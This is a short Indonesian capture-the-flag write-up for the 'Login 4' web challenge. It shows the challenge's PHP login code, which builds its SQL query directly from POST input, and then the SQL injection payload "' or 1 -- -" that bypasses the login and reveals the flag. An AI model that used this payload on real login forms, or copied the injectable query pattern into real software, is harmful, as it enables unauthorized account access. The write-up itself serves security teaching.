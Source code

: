 # __ASGama CTF__ 
## _Login 4_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Web | 50 | l0l

**Description:** 

> http://ctf.asgama.web.id:40107/
>
> [login4.php](./login4.php)

### Login 4
Kali ini, dilihat dari [script](./login4.php), kita perlu melakukan SQL Injection basic untuk bypass login.

```php
$username = $_POST["username"];
$password = $_POST["password"];
$query = $conn->prepare("SELECT * FROM users where username = '$username' and password '$password'");
$query->execute();

$loggedin = $query->rowCount();
$data = $query->fetch();

$name = $data["username"];
if($loggedin){
    echo "Selamat datang $name, Flag: ==RAHASIA LAH==";
}else{
    echo "Username atau password salah ea.<br>";
    if($query->errorInfo()[1]){
        echo $query->errorInfo()[2];
    }
}
```

Terlihat bahwa username dan password keduanya diambil secara langsung dari $_POST variable tanpa filter. Berarti kita dapat langsung inject pada kolom username dengan value "' or 1 -- -"

### Payload
```
' or 1 -- -
```

### Result
```
Selamat datang adm00n, Flag: GamaCTF{EsKiEl_InJekS10n}
```

### Flag
GamaCTF{EsKiEl_InJekS10n}